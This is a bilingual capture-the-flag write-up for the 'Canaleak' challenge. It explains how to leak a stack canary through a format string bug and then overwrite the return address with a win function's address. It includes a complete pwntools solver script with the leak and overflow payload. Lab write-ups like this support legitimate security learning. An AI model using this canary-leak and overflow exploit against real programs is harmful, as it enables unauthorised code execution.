 ```yaml
---
title: "06. Canaleak"
level: 3
flag: "FLAG{N0PE!}"
writer: "EBeb"
badge: true
---
```

# 06. Canaleak

## 問題文

Canaryはスタックを保護するために与えられたメモリ上のランダムな値である。
この値が変わるとプログラムは異常終了される。

`nc canaleak-pwn.wanictf.org 9006`

______________________________________________________________________

Canary is a random value assigned in memory to protect the stack.
When this value changes, the program terminates abnormally.


## FLAG

`FLAG{N0PE!}`

## 解法-日本語

Canaryの突破方法はいくつかあるが、今回はformat string bugを用いてCanaryの値を直接流出させ、それお含めてreturn addressを書き換える。
payloadは「ダミー+Canary+rbp用ダミー+win関数のアドレス」で構成する。
入力をscanfで受けてるため、次のバイトが入力できないため、Canaryに次のバイトが含まれている場合はCheckerが動かない不具合がありました。
`0x09 0x0A 0x0B 0x0C 0x0D 0x20` 


## WriteUp
There are several ways to break through `Canary`, but this time we will use a `format string bug` to directly leak the value of Canary and rewrite the return address including it. The payload is composed of `dummy + Canary + dummy for rbp + address of win function`. Since the input is received by `scanf`, there was a bug where the `Checker` did not work if the one of the following bytes is included in Canary because they could not be entered using scanf. 
`0x09 0x0A 0x0B 0x0C 0x0D 0x20`
### Solver

```
from pwn import *

win=p64(0x401245)

pc = process('./a.out')
print(pc.recvuntil(': '))
pc.sendline(b"%9$p")
canary=int(pc.recvuntil(b"\n")[:-1],16)
log.info('Canary : '+hex(canary))
pc.sendline(b'A'*24+p64(canary)+p64(0)+win)
#gdb.attach(pc,'b *0x4012e8')
pc.sendline(b'YES')
pc.interactive()
```
